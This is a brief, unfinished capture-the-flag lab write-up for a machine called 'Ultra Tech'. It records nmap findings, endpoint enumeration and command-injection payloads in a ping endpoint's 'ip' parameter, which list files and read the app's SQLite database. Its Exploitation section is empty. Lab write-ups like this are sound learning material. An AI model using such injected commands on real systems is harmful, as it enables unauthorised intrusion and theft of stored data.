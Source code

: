 # Ultra Tech

## Reconnaissance

IP addr : 10.10.207.242

## Scanning & Enumeration

### nmap Scan

open port are 21, 22, 8081(http nodejs), 31331(http apache

### htttp(8081) Enumeration

    - /auth
    - /ping
  
```php
/ping?ip=`ls`
/ping?ip=`cat+utech.db.sqlite`
```

### http(31331) Enumeration

    - /robots.txt
    - 

## Exploitation
